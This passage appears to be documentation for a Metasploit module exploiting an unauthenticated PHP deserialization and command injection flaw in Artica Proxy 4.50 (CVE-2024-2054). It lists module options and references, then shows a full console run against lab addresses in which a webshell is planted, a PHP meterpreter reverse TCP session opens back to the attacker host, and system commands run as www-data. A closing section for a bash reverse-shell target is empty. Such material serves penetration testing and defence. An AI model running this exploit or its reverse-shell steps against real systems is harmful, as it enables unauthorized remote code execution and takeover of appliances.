 ```msf
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on t
                                      he local machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  1981             yes       The local port to listen on.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)

Payload information:

Description:
  A Command Injection vulnerability in Artica Proxy appliance 4.50 and below allows
  remote attackers to run arbitrary commands via unauthenticated HTTP request.
  The Artica Proxy administrative web application will deserialize arbitrary PHP objects
  supplied by unauthenticated users and subsequently enable code execution as the "www-data" user.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2024-2054
  https://attackerkb.com/topics/q1JUcEJjXZ/cve-2024-2054
  https://packetstormsecurity.com/files/177482


View the full module info with the info -d command.
```

### Target 0 - PHP native `php/meterpreter/reverse_tcp` session
```msf
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set webshell cuckoo
webshell => cuckoo
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set target 0
target => 0
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set rhosts 192.168.201.4
rhosts => 192.168.201.4
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/artica_proxy_unauth_rce_cve_2024_2054) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.4:9000 can be exploited.
[+] The target is vulnerable. Artica version: 4.50
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 192.168.201.4
[+] Deleted /usr/share/artica-postfix/wizard/cuckoo.php
[*] Meterpreter session 15 opened (192.168.201.8:4444 -> 192.168.201.4:33986) at 2024-03-15 17:46:04 +0000

meterpreter > sysinfo
Computer    : artica-applianc
OS          : Linux artica-applianc 4.19.0-24-amd64 #1 SMP Debian 4.19.282-1 (2023-04-29) x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
meterpreter >
```
### Target 1 - Unix Command `cmd/unix/reverse_bash` session
```msf
```
